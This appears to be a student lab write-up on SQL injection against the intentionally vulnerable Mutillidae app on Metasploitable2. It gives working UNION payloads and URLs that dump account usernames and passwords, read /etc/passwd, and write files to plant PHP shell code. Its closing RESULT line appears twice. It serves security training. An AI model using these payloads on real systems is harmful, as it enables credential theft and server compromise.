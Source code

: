 
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table. ![280634373-330dca50-b77d-4781-ac3d-5a460ee73dd5](https://github.com/Bakkiyalakshmi29/sqlinjection/assets/119406233/48956e8e-ab0a-46c1-9cf1-3133ff840d4d)


The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details ![280634521-9644e75f-0adf-4e04-a2a0-1a2c8c3c9fa5](https://github.com/Bakkiyalakshmi29/sqlinjection/assets/119406233/31f1cd39-c56d-48d1-9b01-0c6209571930)


Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details ![280634649-a759dd2e-4fb1-4863-b5cf-fceba00fde1a](https://github.com/Bakkiyalakshmi29/sqlinjection/assets/119406233/b58723ed-8034-403d-8aae-6e71f5483f4b)

Reading and writing files on the web-server

We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later. Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![280634915-bf03d303-fd61-49e8-9cf8-c1f163d6ba92](https://github.com/Bakkiyalakshmi29/sqlinjection/assets/119406233/1a247450-5003-4bcc-86a8-0f905938e409)



the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).
RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.


## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
